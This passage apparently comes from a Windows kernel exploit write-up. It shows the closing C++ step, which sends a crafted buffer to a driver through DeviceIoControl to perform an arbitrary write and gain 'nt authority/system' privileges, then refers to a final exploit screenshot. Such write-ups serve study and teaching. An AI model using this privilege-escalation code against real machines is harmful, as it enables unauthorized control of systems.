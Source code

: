 ```cpp
    // Buffer to be copied into system space
    BYTE input[0x1000] = { 0 };
    memcpy(input, (void*)&cmd_page, 0x8);
    memcpy(input + 0x8, (void*)&num_of_bytes, 0x4);
    memcpy(input + 0xc, cmd_page_buff, modulus + 0x8);

    if (DeviceIoControl(
        hFile,
        WRITE_IOCTL,
        input,
        modulus + 0x8 + 0xc,
        NULL,
        0,
        &bytes_ret,
        NULL))
    {
        cout << "[>] Write operation succeeded, you should be nt authority/system\n";
    }
    else {
        cout << "[!] Write operation failed, exiting...\n";
        exit(1);
    }
```

## Final Results
You can see the mandatory full exploit screenshot below: